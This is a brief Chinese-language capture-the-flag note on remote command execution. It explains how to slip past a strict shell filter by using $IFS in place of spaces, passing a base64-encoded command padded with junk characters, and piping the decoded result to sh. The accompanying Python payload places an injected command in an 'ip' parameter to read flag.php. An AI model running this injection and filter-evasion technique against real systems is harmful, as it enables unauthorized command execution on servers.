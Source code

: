 tags:: CTF/RCE

- # 思路
	- 普通强过滤shell RCE
	- 可以通过base64解码加sh执行绕过RCE
	- 为了执行`base64 -d`我们可以使用`$IFS`替代空格，为了echo我们的base64 payload我们可以加上一些垃圾字符，然后用base64的`-i`选项让其忽略掉这些垃圾字符
- # payload
	- ```python
	  payload = enc_dec.base64_encode("cat flag.php")
	  payload = f"1145141919810;echo$IFS-_-{payload}|base64$IFS-id|sh"
	  r = requests.get(url, params = {
	      "ip": payload
	  })
	  r.encoding = r.apparent_encoding
	  print(r.text.strip())
	  
	  ```